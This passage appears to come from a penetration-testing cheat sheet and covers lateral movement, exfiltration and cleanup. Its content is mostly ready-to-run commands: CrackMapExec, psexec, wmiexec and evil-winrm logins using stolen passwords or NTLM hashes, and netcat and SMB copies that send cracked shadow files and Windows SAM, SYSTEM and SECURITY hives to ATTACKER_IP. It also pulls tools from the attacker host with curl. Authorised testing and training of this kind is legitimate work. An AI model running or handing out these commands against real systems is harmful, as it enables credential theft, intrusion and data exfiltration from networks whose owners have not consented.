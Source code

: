 ### 7) Lateral movement

With credentials/hashes:

```bash
# CrackMapExec quick checks
crackmapexec smb 10.0.0.0/24 -u USER -p 'PASS' --shares
crackmapexec smb 10.0.0.0/24 -u USER -H NTLMHASH --local-auth

# Impacket psexec / wmiexec
psexec.py DOMAIN/USER@HOST
psexec.py -hashes LMHASH:NTHASH USER@HOST
wmiexec.py USER@HOST 'whoami'
wmiexec.py -hashes LMHASH:NTHASH USER@HOST

# WinRM shell
evil-winrm -i HOST -u USER -p 'PASS'
evil-winrm -i HOST -u USER -H NTHASH
```

RDP:

```bash
xfreerdp /v:HOST /u:USER /p:PASS /dynamic-resolution /cert:ignore
```

### 8) Exfiltration

Linux:

```bash
# To attacker via SMB share (started earlier)
cp /tmp/unshadowed.txt /mnt 2>/dev/null || true
# Or netcat
nc ATTACKER_IP 4445 < /tmp/unshadowed.txt   # Attacker: nc -lvnp 4445 > loot.txt
# Or HTTP GET from attacker
curl -O http://ATTACKER_IP:8000/toolname
```

Windows:

```cmd
:: Copy to attacker SMB share
net use \\ATTACKER_IP\share
copy C:\Windows\Temp\SAM.save \\ATTACKER_IP\share\
copy C:\Windows\Temp\SYSTEM.save \\ATTACKER_IP\share\
copy C:\Windows\Temp\SECURITY.save \\ATTACKER_IP\share\
```

### 9) Cleanup (only if in scope)

Linux:

```bash
rm -f /tmp/linpeas.sh /tmp/linpeas.out /tmp/passwd.bak /tmp/shadow.bak /tmp/unshadowed.txt /tmp/f
# Avoid destructive log tampering unless explicitly permitted.
```
